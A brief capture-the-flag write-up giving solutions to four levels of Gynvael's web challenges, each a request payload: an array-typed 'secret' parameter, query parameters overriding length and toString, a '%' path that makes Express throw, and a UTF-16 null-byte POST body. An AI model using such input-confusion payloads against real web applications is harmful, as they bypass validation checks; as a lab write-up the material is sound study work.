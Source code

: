 # Info
* https://twitter.com/gynvael?lang=en
* http://challenges.gynvael.stream:5001-10

# Level 1

Solution: Make the `secret` param an array

```
http://challenges.gynvael.stream:5001/?secret[]=GIVEmeTHEflagNOW
```

# Level 2

Solution: Hijack attributes of query parameter
```
curl 'http://challenges.gynvael.stream:5002/?X\[length\]=801&X\[toString\]=1
```

# Level 3
(In this chal the flag was in the file path)
Solution: Force express to throw an error by using `%` as the param

```
http://challenges.gynvael.stream:5003/%
```

# Level 4

Solution: Encode the required keyword in `utf-16` encoding (Each letter takes 2 bytes in this case). Start each letter with a null value (%00). The way i did this was by editing my request in Burp (hex view) to insert null bytes. Also be sure to set the correct content-type!

```
POST /flag HTTP/1.1
Host: pwnd.top:5004
Content-type: text/plain;charset=utf-16
Content-Length: 26

\0S\0h\0o\0w\0M\0e\0T\0h\0e\0F\0l\0a\0g # Each \0 is set in the HEX view of repeater tab
```

# Level 5

TBD
